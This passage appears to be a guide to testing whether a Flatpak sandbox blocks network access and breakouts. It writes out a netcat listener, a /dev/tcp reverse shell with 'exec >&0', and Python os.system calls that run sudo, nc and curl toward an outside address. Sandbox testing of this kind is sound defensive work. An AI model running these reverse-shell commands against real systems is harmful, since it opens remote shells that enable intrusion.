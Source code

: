 Try to create an http server (it should actually succeed here, but only exists within the sandbox and is not visible by the host):

```bash
python3 -m http.server 8080 --bind 127.0.0.1; 
# in another terminal on the host, try (this should fail):
curl http://127.0.0.1:8080
# see if it's visible to the host, it should not be visible or accessible from outside of the sandbox
netstat -antup
```

Try another breakout

```bash
# https://github.com/carlospolop/hacktricks/blob/master/linux-unix/useful-linux-commands/bypass-bash-restrictions.md
# setup a listener outside the security sandbox on the host
nc -nvlp 4400 -s 127.0.0.1
# from within the sandbox try:
(sh)0>/dev/tcp/127.0.0.1/4400
# it should fail if shared=!network is set
# it should also fail even if you try to reach the host machine's local network address
# if it doesn't fail, you'll get the following:
Connection received on 127.0.0.1 40864
# in that window, enter this to complete the breakout:
exec >&0
```

Try to execute OS commands with python:

```bash
python3 -c 'import os; os.system("/usr/bin/whoami")'
python3 -c 'import os; os.system("/usr/bin/sudo -l")'
python3 -c 'import os; os.system("/usr/bin/nc -nvlp 4000")'
python3 -c 'import os; os.system("/usr/bin/curl http://172.20.111.1")'

sh-5.1$ python3 -c 'import os; os.system("(sh)0>/dev/tcp/172.20.111.1:443")'
sh: line 1: /dev/tcp/172.20.111.1:443: No such file or directory
```

Another intersting way to view activity is in the system IO, with `pspy`:

```bash
# on the host outside of the sandbox:
# replace pspy64 with pspy32 if on x86
curl -sSLO 'https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64'
sha256sum ./pspy64 | grep 'f7f14aa19295598717e4f3186a4002f94c54e28ec43994bd8de42caf79894bdb'
chmod +x ./pspy64
./pspy64
```

This will show you commandline information of all running processes including flatpak applications.

Try running your flatpak app again with `--command=bash` and see what commands you can pick up with `pspy` running in another window.

---